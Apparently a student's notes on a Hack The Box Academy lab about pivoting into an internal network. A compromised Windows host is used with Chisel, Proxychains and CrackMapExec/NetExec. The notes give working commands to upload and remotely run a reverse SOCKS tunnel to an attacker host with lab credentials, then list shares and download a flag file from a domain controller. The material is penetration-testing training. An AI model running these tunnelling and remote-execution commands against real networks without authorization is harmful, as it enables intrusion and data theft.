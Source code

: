## Proxychains with CME 

In the module [Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/module/details/158/), we discussed how to use tools such as Chisel & Proxychains to connect to networks to that we don't have direct access to. This section will revisit the concept to understand how we can attack other networks via a compromised host. 


### Scenario 


We are working on an internal Pentest. We performed a network scan and identified and compromised only one host (10.129.204.133). By running **ipconfig** on this compromised host, we notice it has two network adapters. Its ARP table shows another host with the IP address 172.16.1.10. Based on the information we collected, we have the following scenario: 


![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/network.png) 


To attack DC01 and any other machine in that network (172.16.1.0/24), we must set up a tunnel between our attack host and MS01. Therefore, all commands executed by CME go through MS01. 


### Set Up the Tunnel 


- We will use [Chisel](https://github.com/jpillora/chisel) to set up our tunnel. Let's navigate to [release](https://github.com/jpillora/chisel/releases) and download the latest Windows binary for our compromised machine and the newest Linux binary to use on our attack host and perform the following steps: 

1. Download and run Chisel on our Attack host. 

#### Chisel - Reverse Tunnel 

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/chisel.png) 

2. Download and Upload Chisel for Windows to the Target Host: 

#### Upload Chisel 

```

Jesta81@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz -O chisel.exe.gz -q
Jesta81@htb[/htb]$ gunzip -d chisel.exe.gz
Jesta81@htb[/htb]$ crackmapexec smb 10.129.204.178 -u grace -p Inlanefreight01! --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe 

```

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/chisel-2.png) 


3. Execute **chisel.exe** to connect to our Chisel server using the netexec command execution option **-x** (We will discuss this option more in the [Command Execution](https://academy.hackthebox.com/module/84/section/812) section) 

```

$ netexec smb 10.129.204.178 -u grace -p Inlanefreight01! -x "C:\Windows\Temp\chisel.exe client 10.10.15.14:9999 R:socks"

```

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/chisel-3.png) 

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/chisel-4.png) 

- We can also confirm the tunnel is running by checking if port TCP 1080 is listening: 

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/netstat.png) 

```

$ netstat -lnpt | grep 1080 

```

5. We need to configure proxychains to use the Chisel default port TCP 1080. We need to make sure to include socks5 127.0.0.1 1080 in the ProxyList section of the configuration file as follows: 

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/tail.png) 


6. We can now use CrackMapExec through Proxychains to reach the IP 172.16.1.10: 

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/dc-shares.png) 


7. We can see a share named **flag** if we use the **--pattern txt** flag or **regex . with the --share "share name"** flags we can see that there is a file called flag.txt in that share. We can retreive it with the following commmands. 

```

# proxychains -q netexec smb 172.16.1.10 -u grace -p 'Inlanefreight01!' --shares

# proxychains -q netexec smb 172.16.1.10 -u grace -p 'Inlanefreight01!' --share flag --pattern txt

# proxychains -q netexec smb 172.16.1.10 -u grace -p 'Inlanefreight01!' --share flag --regex .

# proxychains -q netexec smb 172.16.1.10 -u grace -p 'Inlanefreight01!' --share flag --get-file flag.txt flag.txt 

```


![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/flag.png) 


### Killing Chisel on the Target Machine 

Once we have finished, we need to kill the Chisel process. To do this, we will use the option **-X to execute PowerShell commands** and run the **PowerShell command Stop-Process -Name chisel -Force.** We will discuss command execution in more detail in the [Command Execution](https://academy.hackthebox.com/module/84/section/812) section. Once we do this, the terminal where we ran the Chisel client command execution should conclude as follows: 


#### Kill the Chisel Client 

```

$ nxc smb 10.129.204.178 -u grace -p 'Inlanefreight01!' -X "Stop-Process -Name chisel -Force" 

```


![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/kill.png) 



### Windows as the Chisel server and Linux as the Chisel client 


- We can also do the opposite by starting Chisel as a server on the Windows workstation and using our attack host as the client. To start Chisel as the server, we will use the **option server --socks5.** 

- Now to connect to our target machine Chisel server and enable the proxy, we need to use the **option socks after the IP and port.** 

- Now we can use proxychains again just in reverse. 


```

$ nxc smb 10.129.204.178 -u grace -p 'Inlanefreight01!' -x "C:\Windows\Temp\chisel.exe client 10.10.15.14:8080 R:socks" 

$ /opt/Chisel/chisel_arm client 10.129.204.178:8080 socks 

$ proxychains -q netexec smb 172.16.1.10 -u grace -p Inlanefreight01! --shares 

```

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/reverse.png) 

![Proxychains](/Valid-Account-Information-Gathering/Proxychains-with-CME/images/reverse-2.png) 
